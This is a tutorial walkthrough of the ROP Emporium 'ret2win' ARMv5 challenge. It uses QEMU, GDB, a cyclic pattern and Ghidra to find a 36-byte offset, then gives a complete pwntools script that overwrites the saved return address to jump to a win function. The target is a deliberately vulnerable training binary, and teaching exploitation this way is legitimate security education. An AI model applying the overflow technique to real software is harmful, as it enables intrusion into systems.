




# ROP Emporium ret2win on ARMv5 — Walkthrough
A walkthrough of the ROP Emporium ret2win challenge on ARMv5.

If you’re learning binary exploitation, ARM challenges can feel like a big jump from x86. Even simple ret2win-style problems suddenly come with new registers, emulation, and a slightly different debugging setup.
In this writeup, I walk through the ret2win challenge from ROP Emporium for ARMv5. We’ll identify a stack buffer overflow, find the correct offset, and redirect execution to the `ret2win` function, all while running the binary under QEMU.
The aim here is to keep things straightforward. This walkthrough focuses on the basic steps needed to exploit the binary.

## Initial Reconnaissance
Let’s start by taking a quick look at the binary.

Check the file architecture: 
```bash
file ret2win_armv5
```


Check security protections:
```bash
checksec ret2win_armv5
```


Get basic binary info:
```bash
rabin2 -I ret2win_armv5
```


List functions in the binary:
```bash
rabin2 -s ret2win_armv5 | grep FUNC
```


## Running the Binary using QEMU

In order to execute an ARM binary locally on your machine, you’ll need to use QEMU: 
```bash
# Install QEMU for ARM
sudo apt-get install qemu-user
# Install ARM libraries
sudo apt-get install libc6-armel-cross
```
Now we can run the binary to see what it does: 
```bash
# Run the ARM binary directly
qemu-arm -L /usr/arm-linux-gnueabi ./ret2win_armv5
```


So we know that the buffer size is 32 bytes, but the binary accepts 56 bytes of input. It uses read() so we don’t have to worry about null bytes.

## Triggering a Crash with a Cyclic Pattern

Now we need to find the crashpoint. 

To do this, we’ll create a pattern to identify where we overwrite the return address. 

We’ll use pwntools, since we’ll be using it to write the exploit later. But you can also use metasploit pattern.

```bash
python3 -c "from pwn import *; print(cyclic(100))" > pattern.txt
```
You should now have a text file called pattern.txt. 

Now we just feed this pattern to the binary to see where it crashes. 

Run the binary (in emulation) and start it in debug mode: 
```bash
qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./ret2win_armv5
```
In a second terminal: 
```bash
gdb-multiarch ./ret2win_armv5
target remote :1234
continue
```
You should now see the binary running in the first terminal.

When it asks for input, open a third terminal and cat the content of pattern.txt:
```bash
cat pattern.txt
```


Copy and paste that into the GDB terminal where the program is waiting for input. Don’t include the `b’` and other quotes you might see. 


Hit enter. 

The program should now crash:


## Inspecting the Program Counter

Now look at the `$pc` (Program Counter) register — this should contain a value that comes from the pattern we sent.

The Program Counter holds the address of the instruction the CPU is trying to run.

On ARM, a function stores the return address in the `lr` (link register). This value is saved on the stack when the function starts. When the function finishes, this saved value is loaded into `$pc` so execution can return to the caller.

What happens here is:

1. We overflow the buffer
2. We overwrite the saved return address on the stack
3. When the function returns, this overwritten value is loaded into `$pc`
4. The CPU tries to execute code at address `0x6161616a` (`"jaaa"`)
5. That address is not valid → crash
   
Because of this, we always check `$pc` to confirm whether we have overwritten the return address.


Here we can see that the program tried to jump to address 0x6161616a which is the “jaaa” from our pattern. This is what we overwrote. 

## Calculating the Offset

Now let's find the offset: 
```bash
python3 -c "from pwn import *; print(cyclic_find(0x6161616a))"
```


So we need 36 bytes to reach the return address, then the next 4 bytes will overwrite `$pc`. 

Now we find a function we want to jump to. 

## Static Analysis with Ghidra

Next, we look at interesting functions using static analysis.

You can use whatever tool you want for this, this time we’ll use Ghidra. 

The pwnme function is what we see when the binary runs:


Now we look at the ret2win function: 


This looks like the function we need to jump to. 

Now we just have to find the address. Look at the first address that’s shown after the ret2win function starts in Ghidra:


So the address is `000105ec` which we can write as `0x105ec` (remove leading zeros) 

## Building the Exploit

Now that we have the offset and the return address we want to jump to, we can write our exploit:
```python
from pwn import *

# set up the process so we can interact with the binary later
p = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabi', './ret2win_armv5'])

# build payload
offset = 36
ret2win_addr = 0x105ec

payload = b"A" * offset
payload += p32(ret2win_addr) # packs as 32 bit - converts numbers into its binary representation as 4 bytes in little-endian format. 

# Wait for the prompt (> character)
p.recvuntil(b'> ')

# Send payload
p.sendline(payload)

# Get the output
print(p.recvall().decode())
```

## Successful Exploitation

Save the above as a .py script and run it: 
```bash
python3 exploit.py
```


